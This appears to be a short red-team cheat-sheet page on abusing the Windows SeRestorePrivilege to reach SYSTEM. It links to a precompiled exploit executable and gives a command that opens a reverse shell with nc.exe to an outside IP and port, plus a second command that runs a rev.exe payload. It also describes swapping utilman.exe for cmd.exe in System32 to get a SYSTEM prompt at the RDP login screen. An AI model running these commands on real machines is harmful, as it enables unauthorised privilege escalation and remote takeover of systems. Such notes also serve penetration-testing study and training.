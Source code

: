 ## What ?
Allows a user to write or modify file contents even if the ACL denies access. It also allows changing the file owner and its protection settings. Typically used by restore operations to place files back into their original locations.

`SeRestorePrivilege`:  
- Bypass ACL checks — just like the system would during a file restore  
- Enable Modification of readonly/protected files  
- Enable setting or changing file owners and permission  

### How to ?

#### SeRestoreAbuse
Check privilege
```
whoami /priv
```
Download the compiled executable -> [here](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------)

Run executable
```
.\SeRestoreAbuse.exe "cmd /c C:\Users\anirudh\Documents\nc.exe -e cmd.exe 192.168.45.246 3000"
.\SeRestoreAbuse.exe "C:\Users\svc_apache$\Documents\rev.exe"
```
Remarks: Retrieve SYSTEM access

#### `utilman.exe` and `cmd.exe`

Swap the executables
```
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.bak
mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```
Connect to TARGET
```
rdesktop <TARGET>
```
To launch a SYSTEM cmd: Press win + U
